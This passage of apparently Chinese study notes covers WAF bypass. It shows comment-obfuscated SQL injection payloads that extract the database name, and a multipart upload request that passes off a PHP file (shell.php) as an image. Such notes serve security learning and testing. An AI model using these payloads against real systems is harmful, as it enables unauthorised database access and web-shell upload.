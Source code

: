 ```sql
?id=-1 union/*/1/*/select 1,2,database()--+
```

![image-20230516221518813](../images/image-20230516221518813.png)

```sql
?id=-1 union/*/1/*/select 1,2,database/**/()--+
```

![image-20230516221551123](../images/image-20230516221551123.png)

FUZZ结果

![image-20230517000942363](../images/image-20230517000942363.png)

![image-20230517000931846](../images/image-20230517000931846.png)

### `select from`

硬刚G

```
分块传输，脏数据等成功
```



# 文件上传绕过

## waf检测内容

```
请求的url
Boundary边界
MIME类型
文件后缀名
文件头
文件内容
访问流量
```



## 文件上传数据包了解

```php
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9zWBDx6vAJHGTpAl

------WebKitFormBoundary9zWBDx6vAJHGTpAl
Content-Disposition: form-data; name="upload_file"; filename="shell.php"
Content-Type: image/png

<?php
phpinfo();?>

------WebKitFormBoundary9zWBDx6vAJHGTpAl
Content-Disposition: form-data; name="submit"

submit
------WebKitFormBoundary9zWBDx6vAJHGTpAl--
```
